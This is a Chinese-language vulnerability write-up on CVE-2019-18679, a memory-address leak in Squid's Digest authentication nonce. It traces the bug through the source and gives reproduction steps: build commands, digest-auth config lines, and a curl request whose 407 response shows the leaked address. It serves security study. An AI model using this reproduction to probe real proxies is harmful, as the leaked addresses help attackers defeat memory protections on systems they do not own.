 （CVE-2019-18679）Squid 敏感信息泄漏
====================================

一、漏洞简介
------------

Squid是一个开源的高性能的代理缓存服务器。它接受来自客户端的请求并适当地处理这些请求。例如，如果一个人想下载一web页面，他请求Squid为他取得这个页面。Squid随之连接到远程服务器并向这个页面发出请求。然后，Squid显式地聚集数据到客户端机器，而且同时复制一份。当下一次有人需要同一页面时，Squid可以简单地从磁盘中读到它，那样数据迅即就会传输到客户机上。当前的Squid可以处理HTTP，FTP，GOPHER，SSL和WAIS等协议。

几个月之前，Synacktiv
teams对Squid的源码进行审计，发现了几个漏洞，其中一个是在Digest
authentication过程中触发的敏感信息泄漏漏洞。

二、漏洞影响
------------

三、复现过程
------------

### 漏洞分析

漏洞发生在fixHeader函数。nonce变量通过authenticateDigestNonceNew函数申请，authenticateDigestNonceNonceb64取出nonce变量的值，通过httpHeaderPutStrf发送给客户端。

![15904903701.jpg](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-18679)Squid敏感信息泄漏/media/rId25.jpg)authenticateDigestNonceNonceb64函数单纯的取出了nonce-\>key的值，重点看下nonce变量和nonce-\>key的赋值过程。

![2.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-18679)Squid敏感信息泄漏/media/rId26.png)

函数authenticateDigestNonceNew申请nonce变量![3.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-18679)Squid敏感信息泄漏/media/rId27.png)

authDigestNonceEncode函数对nonce-\>noncedata的地址base64编码，赋值给nonce-\>key

![4.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-18679)Squid敏感信息泄漏/media/rId28.png)

最后response
header中的nonce字段就是base64编码之后的nonce-\>noncedata的地址。

### 漏洞复现

下载Squid有漏洞的版本，这里我选择了squid/3.5.28。编译安装

    ./configure --enable-auth --enable-auth-digest
    make -j4
    make install

安装完成之后squid的主要目录结构如下：

    /usr/local/squid/
        ├── sbin
        │   └── squid             //squid程序
        ├── libexec               //辅助程序
        │   ├── basic_smb_auth
        │   └── digest_file_auth
        └── etc
        │   └── squid.conf       //配置文件
        └── logs                 //运行日志
            ├── access.log
            └── cache.log

修改配置文件，增加一些内容开启digest auth。

    auth_param digest program <path to program>
    auth_param digest children 8
    auth_param digest realm Access to Squid
    auth_param digest nonce_garbage_interval 10 minutes
    auth_param digest nonce_max_duration 45 minutes
    auth_param digest nonce_max_count 100
    auth_param digest nonce_strictness on

运行squid程序，通过squid代理，访问某个网站。返回header中nonce字段就是泄漏的内存地址。

    curl -I -x 192.168.6.22:3128 https://www.0-sec.org/

    HTTP/1.1 407 Proxy Authentication Required
    Server: squid/3.5.28
    Mime-Version: 1.0
    Date: Wed, 13 May 2020 13:28:15 GMT
    Content-Type: text/html;charset=utf-8
    Content-Length: 3526
    X-Squid-Error: ERR_CACHE_ACCESS_DENIED 0
    Vary: Accept-Language
    Content-Language: en
    Proxy-Authenticate: Digest realm="Access to Squid", nonce="7/W7XgAAAABwTjQEilUAAE+y+jgAAAAA", qop="auth", stale=false
    X-Cache: MISS from test
    Via: 1.1 test (squid/3.5.28)
    Connection: keep-alive

参考链接
--------

> https://xz.aliyun.com/t/7771
